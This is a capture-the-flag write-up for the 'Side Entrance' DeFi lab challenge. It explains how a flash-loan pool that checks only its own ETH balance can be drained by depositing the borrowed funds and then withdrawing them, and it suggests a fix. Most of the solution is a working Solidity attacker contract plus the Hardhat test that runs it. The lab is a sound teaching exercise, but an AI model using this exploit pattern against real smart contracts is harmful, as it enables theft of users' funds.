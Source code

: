 # Side Entrance

## analyse

Our goal is to decrease SideEntranceLenderPool's balance to zero ETH and attacker gets 'attackerInitialEthBalance' ETH. So it is transfer the pool's balance to attacker's account.

```js
after(async function () {
        /** SUCCESS CONDITIONS */
        expect(
            await ethers.provider.getBalance(this.pool.address)
        ).to.be.equal('0');
        
        // Not checking exactly how much is the final balance of the attacker,
        // because it'll depend on how much gas the attacker spends in the attack
        // If there were no gas costs, it would be balance before attack + ETHER_IN_POOL
        expect(
            await ethers.provider.getBalance(attacker.address)
        ).to.be.gt(this.attackerInitialEthBalance);
    });
```

SideEntranceLenderPool has a mapping `balances`, it allows anyone to deposit and withdraw their liquidity. 

There is a logical error in the following code: When calling flashloan(), SideEntranceLenderPool will only check whether its balance decrease or not. But if we flashLoan a lot of money, and then use it to deposit, the address(this).balances will not change! We can pass it. And because we have recorded mapping `balances`(by deposit()), we can withdraw it!

```solidity
balances[msg.sender] += msg.value;

require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back");        
```

I think it is a logical error. Balance check should not be the contract's balance while deposit() will change it. In order to correct it, maybe it could change contract balance check to the mapping `balances` check.

## solution

- SideEntranceAttacker

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../side-entrance/SideEntranceLenderPool.sol";

contract SideEntranceAttacker {

    SideEntranceLenderPool private immutable pool;
    address payable attacker;

    constructor (address poolAddress, address attackerAddress) {
        pool = SideEntranceLenderPool(poolAddress);
        attacker = payable(attackerAddress);
    }

    function attack(uint256 amount) external {
        pool.flashLoan(amount);
        pool.withdraw();
    }

    function execute() external payable{
        pool.deposit{value: msg.value}();
    }

    receive () external payable {
        attacker.transfer(msg.value);
    }
}
```

- test

```js
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        const SideEntranceAttackerFactory = await ethers.getContractFactory('SideEntranceAttacker', deployer);
        const attackerContract = await SideEntranceAttackerFactory.deploy(this.pool.address, attacker.address);
        await attackerContract.connect(attacker).attack(ETHER_IN_POOL);
    });
```













































































